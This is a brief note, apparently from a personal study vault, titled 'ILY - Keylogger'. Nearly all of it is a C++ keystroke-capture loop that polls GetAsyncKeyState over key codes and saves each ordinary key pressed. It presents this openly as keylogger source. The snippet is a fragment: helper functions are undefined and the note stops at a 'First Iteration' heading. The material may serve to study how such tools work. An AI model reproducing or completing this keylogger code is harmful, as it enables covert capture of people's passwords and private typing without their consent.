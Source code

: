 **Title:** ILY - Keylogger
**Tags:** [[ILY - Easy]]
**Topics:**

---
# ILY - Keylogger
# General
## startLogging()

```c++
for (char key = 8; key<=173; key++) {
	if (GetAsyncKeyState(key) == 0xFFFF8001) {
	    if (not specialKey(key)) {
            string str(1, key);
            save(str);
        }
    }
}
```

# First Iteration
